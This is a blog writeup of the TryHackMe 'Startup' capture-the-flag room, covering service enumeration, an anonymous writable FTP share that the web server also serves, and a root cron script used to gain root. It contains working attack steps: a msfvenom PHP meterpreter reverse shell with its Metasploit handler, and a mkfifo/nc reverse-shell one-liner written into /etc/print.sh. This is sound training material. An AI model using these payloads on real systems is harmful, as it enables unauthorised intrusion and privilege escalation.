 ```yaml
---
layout: default
title : Startup - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 09, 2020**_

[Startup](https://tryhackme.com/room/startup) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV 10.10.252.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.252.135/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.252.135/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```
The `/*****` is holding the shared files via `FTP`, we gonna need it later to execute our shell.

## FTP :

```                                                        
bvr0n@kali:~$ ncftp 10.10.252.135
Connecting to 10.10.252.135...                                                                                                         
ncftp / > ls
ftp/         notice.txt
ncftp / > ls -la
drwxrwxrwx    2 65534    65534        4096 Nov 09 17:24 ftp
```

I noticed that we can write in `/ftp`, so let's upload a reverse shell there, and execute it in the web browser :

Create a payload :

```
bvr0n@kali:~$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f raw > startup.php
```

Upload it into `/ftp/`:

```
ncftp /ftp > put startup.php
startup.php:                                            37.42 kB  124.55 kB/s  
Could not preserve times for startup.aspx: UTIME failed.
ncftp /ftp >
```
Set a Metasploit handler and exploit :

```
msf5 exploit(multi/handler) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.*.**.***:4444 
[*] Meterpreter session 2 opened (10.*.**.***:4444 -> 10.10.223.78:34244) at 2020-11-09 12:29:21 -0500
```

## Internal Enum :

So i stumbbles across a `Traffic Capture` file, after analysing it, i noticed a password for `Lennie`:
```
[sudo] password for www-data: 
@       ******************
6%      @
Sorry, try again.
```
for the root part, there is a script inside `/lennie` that going to allow us to pivot :

```
root@startup:~# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So basically what this script does,`root` is running what ever on `/etc/print.sh`, lucky for us is it writeable by us :D :

```
root@startup:~# ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 91 Nov  9 18:48 /etc/print.sh
```
So i filled it with a basic reverse shell :

```
root@startup:~# cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
Now we are set to go, set up a `nc` listener and execute `planner.sh`, and you should get a shell ;)

```
root@startup:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
startup
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
